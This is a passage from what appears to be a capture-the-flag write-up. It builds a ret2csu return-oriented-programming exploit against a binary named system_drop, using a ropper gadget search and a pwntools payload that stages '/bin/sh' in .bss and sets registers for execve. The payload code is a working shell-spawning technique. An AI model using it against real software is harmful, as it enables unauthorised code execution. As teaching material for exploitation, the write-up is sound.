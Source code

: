 When we take control of the program, we will have just completed a `read` where the arguments
were `read(1, $dest, 0x100)`. The 1st and 3rd arguments work great for us, so we'll
only need to find a `pop rsi` gadget in order to set the 2nd argument to before jumping to read
again. 
```

``` bash
pwndbg> ropper --  --search 'pop rsi'

[INFO] File: system_drop
0x00000000004005d1: pop rsi; pop r15; ret;
```

Great. We can also dynamically fetch this in pwntools. I try to be kind to my future self when
writing these exploits and avoid using "magic numbers". In a year when I look back, I won't
remember where `0x4005d1` came from.

In any case, we can start building our payload.

```python
limit = 40
pop_rsi_r15_ret = next(e.search(asm('pop rsi; pop r15; ret')))
ptr_bin_sh = e.bss()
ptr_syscall = ptr_bin_sh + 8

payload = b"A"*limit
payload += p64(pop_rsi_r15_ret)     # prepare additional `read`
payload += p64(ptr_bin_sh)          # rsi - read dest
payload += p64(0xdeadc0de)          # r15 - junk
# ret
payload += p64(e.sym.read)          # read in bin/sh to .bss
# ret
```

### `__libc_csu_init`
When sending the previous code, the program will receive more input, which will contain the string
`/bin/sh\x00` and store it at `ptr_bin_sh`. We now have a known address for the location of the
first argument to `execve`.
 
Let's build the `csu` portion of the payload:
 
 ```python
payload += p64(csu_one)             # kick off register-setup with ret2csu
payload += p64(0)                   # pop rbx
payload += p64(0)                   # pop rbp
payload += p64(ptr_syscall)         # pop r12 -(stage 2)-> call [r12+rbx*8]
payload += p64(ptr_bin_sh)          # pop r13 -(stage 2)-> rdi
payload += p64(0)                   # pop r14 -(stage 2)-> rsi
payload += p64(0)                   # pop r15 -(stage 2)-> rdx
# ret
payload += p64(csu_two)             # stage 2 finishes -> register setup
io.sendling(payload)
```

We'll use the same strategy for creating `ptr_syscall` that we did for `ptr_bin_sh`. We'll pass it
in later, during the first read. 

